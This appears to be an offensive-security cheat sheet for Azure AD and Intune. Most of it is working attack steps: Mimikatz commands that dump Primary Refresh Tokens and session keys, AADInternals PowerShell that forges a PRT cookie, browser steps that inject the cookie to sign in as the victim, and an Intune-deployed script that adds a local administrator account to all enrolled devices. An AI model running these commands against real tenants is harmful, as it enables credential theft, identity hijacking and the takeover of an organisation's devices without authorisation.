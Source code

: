 # Pass-the-Primary Refresh Token (PRT)

## Steps

#### 1) Extract PRT, Session Key (KeyValue), and Tenant ID

    Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::cloudap" ""exit"'

#### 2) Extract Context Key, ClearKey, and Derived Key

    Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "dpapi::cloudapkd /keyvalue:<KEY VALUE> /unprotect" "exit"'

#### 3) Request Access Token (Cookie) to All Applications

    Import-Module .\AADInternals.psd1
    
    $tempPRT = '<PRT>'
    while($tempPRT.Length % 4) {$tempPRT += "="}
    $PRT = [text.encoding]::UTF8.GetString([convert]::FromBase64String($tempPRT))
    $ClearKey = "<CLEARKEY>"
    $SKey = [convert]::ToBase64String( [byte[]] ($ClearKey -replace '..', '0x$&,' -split ',' -ne ''))
    New-AADIntUserPRTToken -RefreshToken $PRT -SessionKey $SKey –GetNonce

#### 4) Copy the value from the above command and use it with a web browser:

- Open the browser in Incognito mode.

- Go to https://login.microsoftonline.com/login.srf.

- Press F12 (Chrome dev tools) -> Application -> Cookies

- Clear all cookies and then add one named x-ms-RefreshTokenCredential for https://login.microsoftonline.com and set its value to that retrieved from AADInternals

- Mark HTTPOnly and Secure for the cookie.

- Visit https://login.microsoftonline.com/login.srf again, and access will be granted as the user.

- Now, you can also access portal.azure.com.

# Intune

In addition to passing PRT, a user with Global Administrator or Intune Administrator role can execute PowerShell scripts on an enrolled Windows device. The script runs with SYSTEM privileges on the device. Here are the steps involved:

#### 1) Access Intune Portal (Requires Global Administrator and Intune Administrator privileges)

    https://endpoint.microsoft.com/#home

#### 2) Check enrolled devices

Go to: 

    Devices -> All Devices

#### 3) Execute powershell scripts

Go to Scripts and click on Add for Windows 10.

Create a new script and select a script, for example, adduser.ps1:

    $passwd = ConvertTo-SecureString "<PASSWORD>" -AsPlainText -Force
    New-LocalUser -Name <USERNAME> -Password $passwd
    Add-LocalGroupMember -Group Administrators -Member <USERNAME>

#### 4) Configure script execution

Select Run script in 64-bit PowerShell Host.

On the assignment page, select "Add all users" and "Add all devices."
